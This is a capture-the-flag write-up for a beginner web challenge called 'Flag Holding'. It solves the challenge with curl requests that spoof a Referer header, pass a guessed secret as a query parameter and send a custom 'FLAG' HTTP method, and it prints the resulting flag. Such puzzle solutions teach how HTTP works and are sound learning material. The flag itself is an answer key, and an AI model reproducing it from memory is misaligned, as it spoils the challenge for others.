

# Flag Holding Writeup

by xhyr

Hopefully you know how web works...

`http://18.184.219.56:8080/`

The url greets us with this:



Its hinting that we should come from `http://flagland.internal/` so, we can fake that with a `Referer: http://flagland.internal/` in the headers.

```bash
curl 'http://18.184.219.56:8080/' --compressed \
      -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/118.0' \
      -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8' \
      -H 'Accept-Language: en-US,en;q=0.5' \
      -H 'Accept-Encoding: gzip, deflate' \
      -H 'Connection: keep-alive' \
      -H 'Cookie: secret=idk' \
      -H 'Upgrade-Insecure-Requests: 1' \
      -H 'Referer: http://flagland.internal/'
```

(This can also be done with Edit and Resend feature in dev tools)

With this curl statement, we get this result:

```html
...
<body>
	<div class="msg" style="">Unspecified "secret".</div>
</body>
...
```

We need to set a value for "secret". I first tried passing `Secret`, `Authorization` headers and a cookie with a key named `Secret` but none of that seemed to work.

So I tried to pass it through a GET query by adding a `?secret=a`

```bash
curl 'http://18.184.219.56:8080?secret=a' --compressed \
      -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/118.0' \
      -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8' \
      -H 'Accept-Language: en-US,en;q=0.5' \
      -H 'Accept-Encoding: gzip, deflate' \
      -H 'Connection: keep-alive' \
      -H 'Cookie: secret=idk' \
      -H 'Upgrade-Insecure-Requests: 1' \
      -H 'Referer: http://flagland.internal/'
```

Running that, we get this:

```html
...
<body>
	<div class="msg" style="">
		Incorrect secret.
		<!-- hint: secret is ____ which is the name of the protocol that both this server and your browser agrees on... -->
	</div>
</body>
...
```

In the raw HTML there's a clue. So, using that clue we'll try `?secret=http`

```bash
curl 'http://18.184.219.56:8080?secret=http' --compressed \
      -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/118.0' \
      -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8' \
      -H 'Accept-Language: en-US,en;q=0.5' \
      -H 'Accept-Encoding: gzip, deflate' \
      -H 'Connection: keep-alive' \
      -H 'Cookie: secret=idk' \
      -H 'Upgrade-Insecure-Requests: 1' \
      -H 'Referer: http://flagland.internal/'
```

After this, we get this message:

```html
...
<body>
	<div class="msg" style="">
		Sorry we don't have "GET" here but we might have other things like "FLAG".
	</div>
</body>
...
```

So we try to curl it again but now we use a `-X FLAG` to specify the http method. This is also why I decided to use curl since I don't know how to set a custom method for http in the dev tools.

```bash
curl 'http://18.184.219.56:8080?secret=http' --compressed \
      -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/118.0' \
      -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8' \
      -H 'Accept-Language: en-US,en;q=0.5' \
      -H 'Accept-Encoding: gzip, deflate' \
      -H 'Connection: keep-alive' \
      -H 'Cookie: secret=idk' \
      -H 'Upgrade-Insecure-Requests: 1' \
      -H 'Referer: http://flagland.internal/' \
      -X FLAG
```

Then, we get the flag:

```html
...
<body>
	<div class="msg" style="">MAPNA{533m5-l1k3-y0u-kn0w-h77p-1836a2f}</div>
</body>
...
```
